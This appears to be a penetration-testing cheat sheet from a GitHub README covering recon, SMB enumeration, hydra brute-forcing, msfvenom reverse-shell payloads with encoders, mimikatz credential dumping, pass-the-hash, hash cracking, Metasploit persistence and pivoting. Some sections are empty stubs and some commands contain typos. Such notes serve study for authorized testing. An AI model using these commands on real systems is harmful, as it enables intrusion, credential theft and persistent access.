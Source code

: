 ## Google Dorck:
```
site:      ===>
intitle:   ===>
cache:     ===>
inurl:     ===> 
filetype:  ===>
```

## Passive Recon:
```
host:     ===>
whatweb:  ===>
whois:    ===>
dig:      ===>
```
## Dns Recon:
```
dnsrec  ===>
dnsenum ===>
```
## Waf Detections:
```
wafwoof ===>
```

## Host Discovering:
```
nmap -sn 1.1.1.0/20 
sudo netdiscover -i ent0 -r 1.1.1.0/20 
```
## Network Maping:
```
-wireshark using arpscan
  sudo arp-scan -I tuno -g 1.1.1.1/20
-fping
  fping -I tun0 -g 1.1.1.0/20 -a  2>/dev/null
```
## Nmap switch:
```
 * -Pn
 * -sU
 * -sCV
 * -PA
 * -T (0-5)
```
## SMB:
Nmap Script: 
 ```
 --script smb-protocols
 --script smb-security-mode
 --script smb-enum-sessions
 --script smb-enum-shares
 --script smb-enum-users
```

SmbMap:
 ```
 smbmap -u username -p "pass" -H 1.1.1.1
 smbmap -u username -p pass -H 1.1.1.1 -x "ipconfig"
 smbmap -u username -p pass -H 1.1.1.1 -r 'C$'
 smbmap -u username -p pass -H 1.1.1.1 --upload '/your-file-path/' 'C$\filename' 
 smbmap -u username -p pass -H 1.1.1.1 --download 'C$\download-file-path'
```
SmbClient:
```
 smbclient -L \\\\1.1.1.1\\
 smbclient //1.1.1.1/folder -N
 smbclient -L 1.1.1.1 -U username
 ```
smb with crackmapexe:
```
crackmapexec smb <ip> -u 'username' -p /passPATHfile/
crackmapexec smb <ip> -u username -p pass -X "whomai"
```
Smb with PsExec:
```
 psexec.py username@1.1.1.1
```

## MYSql:
```
mysql -h 1.1.1.1 -u username

Nmap Script:
 --script=mysql-empty-password
```

## FTP With Hydra:
```
hydra -L /usernamePathfile/ -P /passPATHfile/ <ip> ftp
hydra -l username -P /passPATHfile/ <ip> ftp 
```

## SSH With Haydra:
```
hydra -L /usernamePathfile/ -P /passPATHfile/ -t4 <ip> ssh
hydra -l username -P /passPATHfile/ <ip> ssh
```
## Samba:
```
hydra -L /usernamePathfile/ -P /passPATHfile/ -t4 <ip> ftp
smbclient -u username -p pass -H <ip>
enum4linux -a -u username -p pass <ip>
```
## Msfvenom:
```
Windows:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=<Your Port> -f exe > reverse.exe
Encoder:
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe

Linux:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=<Your Port> -f elf > reverse.elf
Encoder:
msfvenom -p linux/x86/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f elf > encoded.exe
```

## Windows Privilege Esclations:
```
# Windows kernel             ===> use suggester module in metasploit
# By Passing UAC             ===> use UAC tool / or use bypassuac_injections module in metasploit
# Access Token Impersonation ===> load incognito 
 ```
## linux Privilege Esclations:
```
# Misconfigured Cron Jobs
# Suid Binaries
# Weak Permissions
# Sudo
```
## Windows Credential Dumping:
```
dump with mimikatz
# privilege::debug
# lsadump::sam 
# lsadump::secrets
```
## Linux Credential Dumping:
```
use MSF module ===>  modules/post/linux/gather/hashdump
```
## Pass The Hash:
```
crackmapexec smb <ip> -u username -H "NTLMHash"
psexec.py username@<ip> -hashes:
```
## Crack Hashing:
```
Windows:
john --format=NT hash.txt --wordlist=/passPAThfile/
hashcat -a3 -m 1000 hash.txt /passPAthfile/

Linux:
john --format=sha512crypt hash.txt --wordlist=/passPAThfile/
hashcat -a3 -m 1800 hash.txt /passPAthfile/
```

## Windows Persistence:
```
# windows service
 use MSF module ===> windows/local/persistence_service
```
## Linux Persistence:
```
# sshkey persistence
use MSF module ===> post/linux/manage/sshkey_persistence 
```

## Pivoting:
```
run autoroute -s <ip/20>
portfwd add -l <local-port> -p <remote-port> -r <ip>
```
## Windows Information:
```
 -Sys Enum:
   * systeminfo 
   * wmic qfe get HotFixId
 - User & group Eunm:
   * whoami
   * net user
   * net localgroup
   * net localgroup administrators test /add
   * whoami /priv
   * query user
 - Network Enum:
   * ipconfig /all
   * route print
   * arp -a
   * netstat -ano
 - Process $ service Enum:
   * net stat
   * tasklist /SVC
   * wmic service list brief
```
## Linux  Information:
```
 -Sys Enum:
   * cat /ect/issue
   * cat /etc/*release
   * uname -a
   * df -h
 - User & group Eunm:
   * groups root
   * cat /etc/passwd | grep -v /nologin
   * useradd -m test -s /bin/bash
   * usermod -aG root test
 - Network Enum:
   * netstat
   * route
   * cat /etc/networks
   * cat /etc/hosts
   * arp -a
 - Process $ service Enum:
   * ps -aux
   * top
   * crontab -l
   * ls al /etc/cron*
```
    



   






